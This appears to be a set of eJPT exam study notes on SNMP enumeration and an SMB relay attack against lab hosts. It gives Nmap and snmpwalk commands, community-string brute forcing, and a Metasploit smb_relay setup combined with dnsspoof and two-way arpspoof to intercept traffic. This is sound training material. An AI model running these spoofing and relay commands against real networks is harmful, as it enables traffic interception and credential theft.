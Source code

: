 ## SNMP - p161,162

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)

Simple Network Management Protocol
It is an application layer protocol running on UDP, and it is widely used to manage other devices on a network.

SNMP enumeration might reveals:
* SNMP enabled devices
* Extract System Information
* Identify community strings for default weakness
* Retrieve network configuration
* Collect user and groups information
* Identify services and applications

### Nmap
```
nmap -sUV -p 161 demo.in.local
```
```
nmap -sU -p 161 —script=snmp-brute demo.ine.local
```
Retrieve community strings using a brute force attack with snmpcommunity.lst
```
nmap -sUV -p 161 —script=snmp-* demo.ine.local > snmp_results
```
### SNMPwalk
```
snmpwalk -v 1 -c public demo.ine.local
-v 1 - version 1. The right version can be found with an Nmap scan.
-c public - it is one of the strings found with an Nmap scan.
```
### SMB Relay Attack
```
msfconsole - terminal tab 0
use exploit/windows/smb/smb_relay
set SRVHOST 172.16.5.101 - attacker
set LHOST 172.16.5.101 - attacker
set SMBHOST 172.16.5.10 - target
```
```
echo “172.16.5.101 *.sportsfoo.com” > dns
&
dnsspoof -i eth1 -f dns - terminal tab 1
```
The first command create a file to be used with dnsspoof to redirect all the traffic coming from *.sportsfoo to our machine.
Now we have to set ip forwarding to achieve an arp spoofing attack.
```
echo 1 > /proc/sys/net/ipv4/ip_forward
&
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1 - terminal tab 2
&
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5 - terminal tab 3
```
Now we can run exploit prepared in Metasploit.
